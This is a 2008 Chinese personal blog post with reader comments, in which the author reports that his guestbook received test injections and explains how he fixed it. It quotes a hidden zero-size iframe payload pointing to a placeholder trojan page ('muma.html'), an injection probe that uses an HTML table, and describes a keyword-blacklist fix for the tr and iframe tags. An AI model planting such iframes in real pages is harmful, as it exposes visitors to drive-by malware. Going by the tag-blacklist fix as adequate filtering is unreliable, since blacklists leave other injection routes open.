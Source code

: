 title: 留言簿被别人测试挂马
id: 241
categories:
  - 编程相关
date: 2008-01-29 16:33:09
tags:
---

先戴个图给大家看看：
[![iframe.JPG](http://7sbxmt.com1.z0.glb.clouddn.com/iframe.JPG)](http://7sbxmt.com1.z0.glb.clouddn.com01/iframe.JPG "iframe.JPG")

一看就知道是被别人测试iframe挂马了，看来留言簿的代码还是有问题，没有把该过滤的东西过滤掉。putty到DH主机上看看MYSQL数据库里面的东西：

最早有问题的留言是：

&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;

这个应该是测试是否可以提交HTML标签的。接下来的留言内容：

&nbsp;&lt;iframe&nbsp;src=http://www.xxx.com/muma.html&nbsp;width=0&nbsp;height=0&gt;&lt;/iframe&gt;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;

这段代码是被写入留言簿中的留言内容，产生一个高、宽为0的frame，经典的挂马行为。这个frame在opera下可以看到，很小的一块，但是IE里是看不到的，当然也只有IE才会中iframe的马。看看在Opera中的效果：
[![d.jpg](http://7sbxmt.com1.z0.glb.clouddn.com/d.jpg)](http://7sbxmt.com1.z0.glb.clouddn.com01/d.jpg "d.jpg")

再看下面：

&lt;iframe&nbsp;src=http://www.google.com&nbsp;width=100&nbsp;height=100&gt;&lt;/iframe&gt;&nbsp;

产生一个高、宽为100的frame，里面是google主页。

&nbsp;&lt;iframe&nbsp;src=http://www.google.com&nbsp;&gt;&lt;/iframe&gt;&nbsp;&nbsp;&nbsp;

最后一个，未指定高、宽由页面自动匹配。

知道问题的原因了，看了看留言簿的代码，在关键字过滤处没有&lt;tr&gt;&nbsp;&lt;iframe&gt;这两个标签，现在加上去就好了。然后在MYSQL中删除这几条垃圾留言。OK

这个年头自己弄个网站不知道一天有多少人在打你的主意，你要是有点流量的话更是会被别人定上的，网上混的话还是安全第一。
## Comments

**[Amankwah](#2893 "2008-01-29 18:54:52"):** Opera好！这都发现了，不知道Firefox能看到不？

**[wind](#2894 "2008-01-29 19:03:55"):** 虾米叫挂马？

**[cocobear](#2895 "2008-01-30 13:39:42"):** TO:wind google 挂马 firefox不知道了，贴出来的图片没有边框，看不清楚，郁闷；

**[草儿](#2896 "2008-01-30 14:03:36"):** 汗…… 不知道GOOGLE有没有提示你“该网站含有恶意代码”，哈哈~

**[luguo](#2897 "2008-01-30 17:09:57"):** 很黄很暴力～～

**[cocobear](#2898 "2008-01-30 19:08:52"):** 没那么夸张，只是别人测试，你看那个地址也是不存在的 http://www.xxx.com/muma.html

**[cocobear](#2917 "2008-02-13 20:53:33"):** a b strong 等 :-)

**[cnenc](#2908 "2008-02-07 05:29:00"):** 以前就提示你,可惜你一直不当回事.

**[kongove](#2911 "2008-02-09 16:05:14"):** 能透露一下，还有那些关键标签没过滤呢？？

**[crazyfranc](#2902 "2008-02-01 20:57:58"):** 你可真细心啊。看来以后还是换OPERA好了。

